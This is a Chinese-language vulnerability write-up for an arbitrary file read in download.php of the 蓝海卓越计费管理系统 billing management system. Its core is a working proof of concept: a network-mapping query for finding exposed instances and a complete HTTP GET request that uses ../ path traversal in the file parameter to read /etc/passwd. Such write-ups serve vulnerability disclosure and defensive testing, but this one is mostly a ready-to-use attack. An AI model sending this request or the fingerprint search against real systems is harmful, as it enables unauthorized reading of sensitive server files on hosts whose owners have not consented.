


# 蓝海卓越计费管理系统 download.php 任意文件读取漏洞

## 漏洞描述

蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件

## 漏洞影响

```
蓝海卓越计费管理系统
```

## 网络测绘

```
title=="蓝海卓越计费管理系统"
```

## 漏洞复现

登录页面如下





出现漏洞的文件为 download.php ，其中 file参数 存在用户可控


发送如下请求包


```plain
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=qkoqsiilc4dol8s4e9d7ta15g7; mylang=zh_s

Connection: close
```




## 